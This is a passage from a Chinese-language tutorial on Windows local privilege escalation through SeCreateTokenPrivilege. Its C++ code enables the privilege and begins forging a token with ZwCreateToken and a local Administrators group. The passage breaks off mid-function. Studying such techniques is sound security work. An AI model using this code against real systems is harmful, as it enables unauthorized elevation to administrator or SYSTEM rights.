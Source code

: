 然后调用 `EnableTokenPrivilege()` 函数，该函数通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeCreateTokenPrivilege 特权，如下所示。

```c++
BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}
```

接着，凭借已开启的 SeCreateTokenPrivilege 特权，调用 `CreateUserToken()` 函数创建新令牌。

### Create User Token

`CreateUserToken()` 函数的定义如下。

```c++
HANDLE CreateUserToken(HANDLE hToken)
{
    NTSTATUS Status;
    HANDLE pElevatedToken = NULL;
    PTOKEN_USER pTokenUser = NULL;
    PTOKEN_PRIVILEGES pTokenPrivileges = NULL;
    PTOKEN_GROUPS pTokenGroups = NULL;
    PTOKEN_PRIMARY_GROUP pTokenPrimaryGroup = NULL;
    PTOKEN_DEFAULT_DACL pTokenDefaultDacl = NULL;
    TOKEN_SOURCE tokenSource;
    PTOKEN_OWNER pTokenOwner = NULL;
    SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
    OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
    LUID AuthenticationId = SYSTEM_LUID;
    LARGE_INTEGER ExpirationTime;

    _ZwCreateToken ZwCreateToken;

    PISID pSid = NULL;
    SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
```